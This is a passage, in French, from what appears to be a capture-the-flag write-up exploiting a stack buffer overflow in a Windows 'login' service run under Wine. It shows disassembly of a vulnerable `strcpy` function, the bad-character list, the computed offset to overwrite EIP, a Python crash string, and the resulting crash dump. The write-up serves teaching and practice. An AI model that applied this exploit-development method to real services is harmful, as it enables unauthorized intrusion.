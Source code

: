 On voit ainsi plusieurs comparaisons à des valeurs harcodées : 0x2d, 0x2e, 0x46, 0x47, 0x59, 0x5e et 0x60 ainsi qu'en écrasement par un octet nul.

Il s'agit de caractères qui ne devront pas être inclus dans notre payload sans quoi il sera cassé.

La fonction `_f3` est quand à elle simple et il ne fait aucun doute qu'elle est vulnérable avec son appel à `strcpy` :

```nasm
_f3 (char *arg_8h);
; var char *dest @ ebp-0x6a2
; arg char *arg_8h @ ebp+0x8
; var const char *src @ esp+0x4
0x004018ce      push ebp
0x004018cf      mov ebp, esp
0x004018d1      sub esp, 0x6b8
0x004018d7      mov eax, dword [arg_8h]
0x004018da      mov dword [src], eax ; const char *src
0x004018de      lea eax, [dest]
0x004018e4      mov dword [esp], eax ; char *dest
0x004018e7      call _strcpy       ; sym._strcpy ; char *strcpy(char *dest, const char *src)
0x004018ec      nop
0x004018ed      leave
0x004018ee      ret
```

On peut lire en commentaire qu'il y a une variable locate (ici `dest`) qui prend 1698 octets (0x6a2) dans la stack frame. Il faut ensuite compter 4 octets pour écraser EBP puis 4 autres pour écraser EIP.

Pour valider ça on peut envoyer la chaine suivante en Python (suivi d'un CRLF sans quoi le serveur continue d'attendre un input) vers le binaire en écoute que l'on aura nous aussi lancé avec [Wine](https://www.winehq.org/) :

```python
b"A" * 1698 + b"BBBB" + b"CCCC" + b"DDDD" * 16
```

 Une fenêtre de débogage de Wine apparait aussitôt, on s'empresse de regarder les détails :

```
Unhandled exception: page fault on read access to 0x43434343 in 32-bit code (0x43434343).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:43434343 ESP:0135fb08 EBP:42424242 EFLAGS:00010246(  R- --  I  Z- -P- )
 EAX:0135f45e EBX:00000040 ECX:0135f45e EDX:00000000
 ESI:00000000 EDI:00000000
Stack dump:
0x0135fb08:  44444444 44444444 44444444 44444444
0x0135fb18:  44444444 44444444 44444444 44444444
0x0135fb28:  44444444 44444444 44444444 44444444
0x0135fb38:  44444444 44444444 44444444 44444444
0x0135fb48:  00000a0d 00000000 00000000 00000000
0x0135fb58:  00000000 00000000 00000000 00000000
Backtrace:
=>0 0x43434343 (0x42424242)
0x43434343: -- no code accessible --
Modules:
Module	Address			Debug info	Name (8 modules)
PE	00400000-00413000	Deferred        login
PE	62500000-62510000	Deferred        login_support
PE	6a280000-6a31c000	Deferred        msvcrt
PE	6d780000-6d7a7000	Deferred        ws2_32
PE	70b40000-70c04000	Deferred        ucrtbase
PE	7b000000-7b288000	Deferred        kernelbase
PE	7b600000-7b65a000	Deferred        kernel32
PE	7bc00000-7bc9c000	Deferred        ntdll
```
